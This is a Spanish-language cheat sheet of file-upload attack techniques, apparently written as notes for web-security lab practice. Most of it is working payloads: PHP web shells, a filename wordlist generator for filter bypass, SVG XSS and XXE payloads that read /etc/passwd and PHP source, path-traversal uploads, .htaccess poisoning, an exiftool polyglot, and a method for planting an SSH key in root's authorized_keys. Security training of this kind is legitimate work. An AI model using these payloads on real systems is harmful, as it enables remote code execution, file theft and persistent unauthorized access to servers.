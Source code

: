 #### Shells php útiles:

        <?php system($_GET['cmd']); ?>
        <?php echo file_get_contents('/home/carlos/secret'); ?>




#### Generar bash con wordlists para bypassear whitelists:

        for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
            for ext in '.php' '.phps' '.phtml' '.phar' '.php3' '.phtm'; do
                echo "shell$char$ext.jpg" >> wordlist.txt
                echo "shell$ext$char.jpg" >> wordlist.txt
                echo "shell.jpg$char$ext" >> wordlist.txt
                echo "shell.jpg$ext$char" >> wordlist.txt
            done
        done


#### Siempre agregar, previo al código malicioso un "tipo de archivo" en base a los magicnumbers:
        "
        GIFF8
        <?php .... ?>

#### XSS:

Añadir código malicioso en la metadata de los archivos.
sgv example:

        <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
            <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
            <script type="text/javascript">alert(window.origin);</script>
        </svg>


#### XXE:

leer un archivo en el servidor

        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <svg>&xxe;</svg>

#### Ver código fuente de un archivo php:

        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
        <svg>&xxe;</svg>


### File upload wth path transversal:
Podemos encontrarnos con que en algunos casos logramos subir un archivo malicioso, pero al momento de ejecutarlo en 
el servidor, este está impedido de ejecutarse mostrandonos el texto plano (si lo escondimos en una foto podríamos
intentar ejecutarla y que nada pase).
Esto se debe a que algunos servidores limitan la ejecución de código en directorios puntuales.
Para esto podemos combinar el path transversal agregándolo en la cabecera Content-Disposition:

###### Content-Disposition: form-data; name="avatar"; filename="../exploit.php" (debemos seguir todos los procedimientos de evación de filtros de path transversal si es que el servidor tiene alguna validación).
Luego, con el mismo path transversal podemos llamarlo. (puede que al momento de llamarlo, si debimos encodear el path}
transversal en la subida, no debamos encodearlo en la ejecución).

### RSA implant

Si contamos con path transversal en el upload podríamos crear una rsa key e implantarsela a un usuario.

        ssh-keygen -t rsa


Luego metemos el .pub en el archivo uthorized_keys

        cat pop.pub > authorized_keys 

Luego subimos el archivo aprovechando el path transversal hasta una carpeta de un usuario. Ej:

        ../../../../../../../root/.ssh/authorized_keys

Luego nos logueamos por ssh con la rsa_id

#### Blacklist bypass:
Fuerza bruta de extensión:
Si nos encontramos un filtro de blacklist, podemos hacer fuerza bruta sobre la extención del archivo malicioso buscando una extención permitida.

#### .htaccess poisoning/spoofing:

Podemos encontrarnos que no hay una extensión permitida dentro de las shells que necesitamos o que, aunque hubiera alguna, no hubiera permisos de ejecución. 
Podemos subir un archivo .htaccess envenenado que nos permita la ejecucion:

##### 1)creamos un archivo .htaccess y lo subimos:

        echo "AddType application/x-httpd-php .dork" > .htaccess

##### 2)Subimos nuevamente la shell con la extensión ".dork" y ejecutamos.

#### Recursión de extensiones:

Podemos también, si hay un filtro que busque por palabras puntuales y las elimine, sumar recursión a la extensión de
los archivos: shell.p.phphp

#### Polyglot php en una imagen:

        exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php






